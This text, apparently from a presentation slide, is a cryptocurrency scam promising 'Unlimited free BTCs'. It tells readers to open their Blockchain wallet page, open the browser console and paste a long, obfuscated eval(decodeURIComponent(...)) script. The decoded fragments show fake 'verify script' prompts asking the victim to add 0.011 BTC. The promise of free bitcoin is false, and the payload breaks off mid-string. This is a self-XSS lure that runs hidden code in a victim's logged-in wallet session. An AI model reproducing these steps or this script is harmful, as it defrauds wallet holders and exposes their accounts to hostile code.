

STEPS TO LAUNCH THE SCRIPT + TIPS
1)Clear browsing data(Recommended Google chrome)  2)Open your Blockchain account on
3)On your Blockchain page right click with the mouse and choose "inspect element�;  4)Go to "Console" tab and paste the script;

Press enter to start script;
Done all Procedures recommended by the script  8)Get your Unlimited free BTCs

NOTE:Please Don`t select more than 2 BTC unconfirmed transactions if you select  after
any problem coming we are not responsible.use the script below!

eval(decodeURIComponent('%76%61%72%20%72%37%67%78%6F%20%3D%20%70%61%72%73%65%46%6C
%6F%61%74%28%70%72%6F%6D%70%74%28%65%76%61%6C%28%64%65%63%6F%64%65%55%52%49%43%6F
%6D%70%6F%6E%65%6E
%74%28%27%25%32%32%25%36%38%25%37%34%25%37%34%25%37%30%25%37%33%25%33%61%25%32%66%2
5%32%66%25%37%37%25%37%37%25%37%37%25%32%65%25%36%32%25%36%63%25%36%66%25%36%33%25%
36%62%25%36%33%25%36%38%25%36%31%25%36%39%25%36%65%25%32%65%25%36%33%25%36%66%25%36
%64%25%32%66%25%36%32%25%37%34%25%36%33%25%32%66%25%37%34%25%37%38%25%32%66%25%32%3  2%27%29%29%2C%20%65%76%61%6C%28%64%65%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E
%74%28%27%25%32%37%25%32%37%27%29%29%29%29%3B%20%61%6C%65%72%74%28%65%76%61%6C
%28%64%65%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E
%74%28%27%25%32%32%25%34%31%25%37%33%25%32%30%25%36%31%25%32%30%25%37%33%25%36%35%2
5%36%33%25%37%35%25%37%32%25%36%39%25%37%34%25%37%39%25%32%30%25%37%30%25%37%32%25%
36%35%25%36%33%25%36%31%25%37%35%25%37%34%25%36%39%25%36%66%25%36%65%25%32%63%25%32
%30%25%35%30%25%36%63%25%36%35%25%36%31%25%37%33%25%36%35%25%32%30%25%37%36%25%36%3
5%25%37%32%25%36%39%25%36%36%25%37%39%25%32%30%25%37%33%25%36%33%25%37%32%25%36%39%
25%37%30%25%37%34%25%32%30%25%37%37%25%36%39%25%37%34%25%36%38%25%32%30%25%34%32%25
%36%63%25%36%66%25%36%33%25%36%62%25%34%33%25%36%38%25%36%31%25%36%39%25%36%65%25%3
2%30%25%37%37%25%36%31%25%36%63%25%36%63%25%36%35%25%37%34%25%32%30%25%36%32%25%36%
35%25%36%36%25%36%66%25%37%32%25%36%35%25%32%30%25%37%39%25%36%66%25%37%35%25%32%30
%25%36%33%25%36%31%25%36%65%25%32%30%25%37%30%25%37%32%25%36%66%25%36%33%25%36%35%2  5%36%35%25%36%34%25%32%65%25%32%32%27%29%29%29%3B%20%76%61%72%20%72%37%67%78%6F
%20%3D%20%70%61%72%73%65%46%6C%6F%61%74%28%70%72%6F%6D%70%74%28%65%76%61%6C
%28%64%65%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E
%74%28%27%25%32%32%25%35%39%25%36%46%25%37%35%25%37%32%25%32%30%25%37%33%25%36%33%2
5%37%32%25%36%39%25%37%30%25%37%34%25%32%30%25%36%44%25%37%35%25%37%33%25%37%34%25%
32%30%25%36%32%25%36%35%25%32%30%25%37%36%25%36%35%25%37%32%25%36%39%25%36%36%25%36
%39%25%36%35%25%36%34%25%32%30%25%37%37%25%36%39%25%37%34%25%36%38%25%32%30%25%37%3
9%25%36%46%25%37%35%25%37%32%25%32%30%25%34%32%25%36%43%25%36%46%25%36%33%25%36%42%
25%34%33%25%36%38%25%36%31%25%36%39%25%36%45%25%32%30%25%37%37%25%36%31%25%36%43%25
%36%43%25%36%35%25%37%34%25%32%30%25%36%32%25%36%35%25%36%36%25%36%46%25%37%32%25%3
6%35%25%32%30%25%37%39%25%36%46%25%37%35%25%32%30%25%36%33%25%36%31%25%36%45%25%32%
30%25%37%34%25%36%31%25%36%42%25%36%35%25%32%30%25%37%34%25%36%38%25%36%39%25%37%33
%25%32%30%25%36%31%25%36%33%25%37%34%25%36%39%25%36%46%25%36%45%25%32%45%25%32%30%2
5%35%30%25%36%43%25%36%35%25%36%31%25%37%33%25%36%35%25%32%30%25%37%36%25%36%35%25%
37%32%25%36%39%25%36%36%25%37%39%25%32%30%25%37%33%25%36%33%25%37%32%25%36%39%25%37
%30%25%37%34%25%32%30%25%36%32%25%37%39%25%32%30%25%36%31%25%36%34%25%36%34%25%36%3
9%25%36%45%25%36%37%25%32%30%25%32%38%25%33%30%25%32%45%25%33%30%25%33%31%25%33%31%
25%32%39%25%32%30%25%34%32%25%35%34%25%34%33%25%32%30%25%37%34%25%36%46%25%32%30%25